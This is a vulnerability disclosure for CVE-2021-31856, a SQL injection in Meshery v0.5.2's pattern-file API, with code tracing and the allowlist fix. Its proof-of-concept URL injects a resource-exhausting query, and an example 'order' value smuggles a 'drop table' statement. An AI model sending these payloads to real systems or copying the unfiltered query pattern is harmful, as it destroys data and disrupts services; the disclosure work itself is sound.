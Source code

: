 # [Vulnerability Report] CVE-2021-31856: a sql injection in Meshery

| item | details | note |
| --- | --- | --- |
| project | https://github.com/layer5io/meshery |
| date announced | 2021-04-28 |
| CVE-ID | CVE-2021-31856 | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31856 |
| EDB-ID | \ |  |
| Vulnerable Version | v0.5.2 | \ |
| Patched Version | v0.5.3 | https://github.com/layer5io/meshery/pull/2745 |
| CVSS | 7.5 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| Author | https://github.com/ssst0n3 | |

## 1. Description

GetMesheryPatterns() function in `meshery/models/meshery_pattern_persister.go` has SQL Injection vulnerability via the `/api/experimental/patternfile?order=id%3Bselect(randomblob(1000000000))&page=0&page_size=0` order parameter.

## 2. PoC
```!
http://<IP>:9081/api/experimental/patternfile?order=id%3Bselect(randomblob(1000000000))&page=0&page_size=0
```

[watch the video](https://drive.google.com/file/d/15yghdCP5D3Qi2RHKBpaJe72q0FtRKj5Y/view)

<video controls autoplay src="https://st0n3-img.obs.cn-south-1.myhuaweicloud.com/container/meshery/meshery_sqli_exploit.mp4" width=100%>
  <p>Your browser doesn't support HTML5 video. Here is a 
      <a href="https://st0n3-img.obs.cn-south-1.myhuaweicloud.com/container/meshery/meshery_sqli_exploit.mp4">
      link to the video</a> instead.</p>
</video>

## 3. Code Analysis

The parameter `order` in function `GetMesheryPatterns` is a instance of string. It will be appended to query statement directly when using gorm, and the sql query statement is executed by `Find()`.

https://github.com/layer5io/meshery/blob/v0.5.2/models/meshery_pattern_persister.go#L35
```!
func (mpp *MesheryPatternPersister) GetMesheryPatterns(search, order string, page, pageSize uint64) ([]byte, error) {
	if order == "" {
		order = "updated_at desc"
	}
        ...
	query := mpp.DB.Order(order)
        ...
	Paginate(uint(page), uint(pageSize))(query).Find(&patterns)
        ...
}
```

If the parameter `order` comes from the user's input without any filtering, there is a sql injection vulnerability.

Tracing the call process, we can find that the parameter "order" comes directly from the query.

https://github.com/layer5io/meshery/blob/v0.5.2/handlers/meshery_pattern_handler.go#L140

```!
func (h *Handler) GetMesheryPatternsHandler(
	rw http.ResponseWriter,
	r *http.Request,
	prefObj *models.Preference,
	user *models.User,
	provider models.Provider,
) {
	q := r.URL.Query()

	resp, err := provider.GetMesheryPatterns(r, q.Get("page"), q.Get("page_size"), q.Get("search"), q.Get("order"))
	if err != nil {
		http.Error(rw, fmt.Sprintf("failed to fetch the patterns: %s", err), http.StatusInternalServerError)
		return
	}

	rw.Header().Set("Content-Type", "application/json")
	fmt.Fprint(rw, string(resp))
}

```

If we debug, we can find that the query statement is:

```!
SELECT * FROM `meshery_patterns` ORDER BY <ORDER>
```

if we let order=`id;drop table meshery_patterns`, the statement will become

```!
SELECT * FROM `meshery_patterns` ORDER BY id;drop table meshery_patterns
```

and the table will be deleted.

---

The full call chain is:

https://github.com/layer5io/meshery/blob/v0.5.2/router/server.go#L127
```!
	gMux.Handle("/api/experimental/patternfile", h.ProviderMiddleware(h.AuthMiddleware(h.SessionInjectorMiddleware(h.PatternFileRequestHandler)))).
		Methods("POST", "GET")
```

https://github.com/layer5io/meshery/blob/v0.5.2/handlers/meshery_pattern_handler.go#L93

```
func (h *Handler) PatternFileRequestHandler(
...
		h.GetMesheryPatternsHandler(rw, r, prefObj, user, provider)
}
```

https://github.com/layer5io/meshery/blob/v0.5.2/handlers/meshery_pattern_handler.go#L149
```!
func (h *Handler) GetMesheryPatternsHandler(
...
	resp, err := provider.GetMesheryPatterns(r, q.Get("page"), q.Get("page_size"), q.Get("search"), q.Get("order"))
..
```

https://github.com/layer5io/meshery/blob/v0.5.2/models/default_local_provider.go#L439

```!
func (l *DefaultLocalProvider) GetMesheryPatterns(req *http.Request, page, pageSize, search, order string) ([]byte, error) {
...
	return l.MesheryPatternPersister.GetMesheryPatterns(search, order, pg, pgs)
}
```

https://github.com/layer5io/meshery/blob/v0.5.2/models/meshery_pattern_persister.go#L35-L44
```!
func (mpp *MesheryPatternPersister) GetMesheryPatterns(search, order string, page, pageSize uint64) ([]byte, error) {
	if order == "" {
		order = "updated_at desc"
	}
        ...
	query := mpp.DB.Order(order)
        ...
	Paginate(uint(page), uint(pageSize))(query).Find(&patterns)
        ...
}
```

## 4. Fix

Set an allowlist for the parameter order instead of using parameters from user input without any filtering.

https://github.com/layer5io/meshery/pull/2745

You can get some references from gorm's document: https://gorm.io/docs/security.html
